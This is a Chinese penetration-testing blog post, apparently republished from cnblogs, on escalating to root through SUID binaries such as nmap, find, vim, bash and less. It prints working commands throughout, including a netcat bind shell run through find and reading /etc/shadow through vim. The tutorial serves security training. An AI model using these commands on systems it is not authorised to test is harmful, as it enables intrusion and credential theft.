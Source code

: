 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12194099.html)

### 0x01 简介

SUID 是 Linux 的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有 SUID 权限，那么就可以利用系统中的二进制文件和工具来进行 root 提权。

已知的可以用来提权的 Linux 可执行文件有：

```
Nmap、Vim、find、Bash、More、Less、Nano、cp


```

下面的命令可以发现所有的系统中运行的 SUID 可执行文件:

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \\; 


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205550820-2072719529.png)

上面的所有二进制文件都可以在 root 权限下运行，因为他们的 owner 是 root，并且他们的权限中含有 s。s 权限使一般使用者临时具有该文件所属主 / 组的执行权限。所以这里就可以假冒 root 用户来执行一些高权操作。

### 0x02 Nmap

早版本的 Nmap(2.02 到 5.21）有交互模式，允许用户执行 shell 命令。Nmap 也是 root 权限下运行的二进制文件。通过参数 interactive 可以进入交互模式:

```
nmap --interactive


```

下面的命令可以对 shell 提权:

```
nmap> !sh
sh-3.2# whoami
root


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205741311-615395143.png)

Metasploit 也有利用 SUID Nmap 进行提权攻击:

```
exploit/unix/local/setuid\_nmap


```

### 0x03 Find

如果 find 以 SUID 权限运行，所有通过 find 执行的命令都会以 root 权限运行。

```
touch pentestlab
find pentestlab -exec whoami \\;


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205840140-716678942.png)

主流的 Linux 操作系统都安装了 netcat，可以将该命令提权为 root shell。

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \\;


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114205859594-1066722105.png)

当然除了借助 nc 也可以参考其他工具：[\[Shell\] 多姿势反弹 shell](https://www.cnblogs.com/-mo-/p/11988065.html)

### 0x04 Vim

如果 vim 以 SUID 运行，就会继承 root 用户的权限，可以读取系统中所有的文件。

```
vim.tiny /etc/shadow


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210303667-533476258.png)

通过 vim 运行 shell:

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210320040-95087654.png)

### 0x05 Bash

下面的命令可以以 root 权限打开 bash shell:

```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)


```

### 0x06 Less/More

Less 和 more 都可以执行提权的 shell

```
less /etc/passwd
!/bin/sh


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200114210540925-986565740.png)

### 0x07 参考链接

[https://www.freebuf.com/articles/system/149118.html](https://www.freebuf.com/articles/system/149118.html)  
[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)